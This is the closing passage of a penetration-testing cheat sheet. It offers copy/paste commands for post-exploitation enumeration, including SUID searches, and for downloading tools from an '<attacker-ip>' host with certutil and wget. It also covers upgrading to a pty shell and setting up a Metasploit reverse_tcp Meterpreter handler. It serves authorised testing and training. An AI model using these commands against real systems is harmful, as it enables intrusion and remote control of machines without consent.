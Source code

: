 * Keep a **post-exec toolkit** on your attacker host (scripts that gather systeminfo, list SUIDs, run linpeas/winpeas).
* Maintain **versioned copies** of any PoC or modified exploit you used (patches, compile flags).
* Use `script` or tee to record terminal sessions:

```bash
script -f /tmp/session_$(date +%F_%T).log
# or
your_command | tee output.txt
```

---

## Quick reference — commands summary (copy/paste)

### Enumeration

```bash
# Linux
id; uname -a; cat /etc/*release; ip a; ss -tuln; ps aux; sudo -l; find / -perm -4000 -type f 2>/dev/null

# Windows (powershell/cmd)
whoami; systeminfo; ipconfig /all; netstat -ano; tasklist /v; whoami /priv; net user
```

### File transfer

```bash
# host on attacker
python3 -m http.server 8000

# download from Windows
certutil -urlcache -f http://<attacker-ip>:8000/tool.exe tool.exe

# download from Linux
wget http://<attacker-ip>:8000/tool -O /tmp/tool && chmod +x /tmp/tool
```

### Shell upgrade

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

### Simple Meterpreter flow (conceptual)

```text
# msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST <attacker-ip>
set LPORT 4444
run
# deliver payload on target (only if in scope)
```
